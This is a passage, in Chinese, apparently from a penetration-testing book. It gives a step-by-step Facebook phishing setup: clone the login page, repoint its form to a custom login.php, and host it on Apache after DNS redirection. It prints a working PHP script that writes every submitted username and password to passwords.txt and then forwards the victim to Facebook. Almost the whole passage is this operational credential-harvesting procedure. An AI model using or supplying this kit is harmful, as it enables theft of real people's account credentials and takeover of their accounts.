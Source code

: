 在接下来的部分，我们将看到如何利用这一点进行密码钓鱼。

# Facebook 密码钓鱼

在前一部分中，我们看到只需要几行 Python 代码，就可以将流量重定向到攻击者的机器，而不是访问[`www.google.jo/?gws_rd=ssl`](https://www.google.jo/?gws_rd=ssl)。这一次，我们将看到攻击者如何利用修改 Facebook 的 DNS 记录，重定向流量到钓鱼页面，并抓取账户密码。

首先，我们需要设置一个钓鱼页面。

你不需要成为网页编程的专家。你可以轻松地通过 Google 搜索准备钓鱼账户的步骤。

1.  要创建一个钓鱼页面，首先打开你的浏览器并导航到 Facebook 登录页面。然后，在浏览器菜单中点击文件，再点击“另存为...”。然后，确保从下拉菜单中选择完整页面。

1.  输出应该是一个`.html`文件。

1.  现在让我们在这里提取一些数据。打开书中提供的代码文件中的`Phishing`文件夹。将 Facebook 的 HTML 页面重命名为`index.html`。

1.  在这个 HTML 中，我们必须更改登录表单。如果你搜索`action=`，你会看到它。在这里，我们将登录表单更改为将请求重定向到一个名为`login.php`的自定义 PHP 页面。此外，我们还必须将请求方法更改为`GET`，而不是`POST`。

1.  你会看到我在同一个`Phishing`目录下添加了一个`login.php`页面。如果你打开文件，你会看到以下脚本：

```
<?php
header("Location: http://www.facebook.com/home.php? ");
$handle = fopen("passwords.txt", "a");
foreach($_GET as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?> 
```

一旦目标点击“登录”按钮，我们将把数据作为`GET`请求发送到这个`login.php`，并将提交的数据存储在我们的`passwords.txt`文件中；然后，我们将关闭它。

1.  接下来，我们将创建`passwords.txt`文件，目标凭据将存储在其中。

1.  现在，我们将把所有这些文件复制到`\var\www`，并启动 Apache 服务。

1.  如果我们在本地打开`index.html`页面，我们将看到这是目标将看到的钓鱼页面。

让我们快速回顾一下当目标点击“登录”按钮时会发生什么？一旦目标点击“登录”按钮，目标的凭据将作为`GET`请求发送到`login.php`。记住，这会发生是因为我们修改了`action`参数，将凭据发送到`login.php`。之后，`login.php`最终会将数据存储到`passwords.txt`文件中。

现在，在我们启动 Apache 服务之前，让我确保我们获得了一个 IP 地址。

1.  输入以下命令：

```
ifconfig eth0
```

你可以看到我们正在运行`10.10.10.100`，并且我们也会使用以下命令启动 Apache 服务：
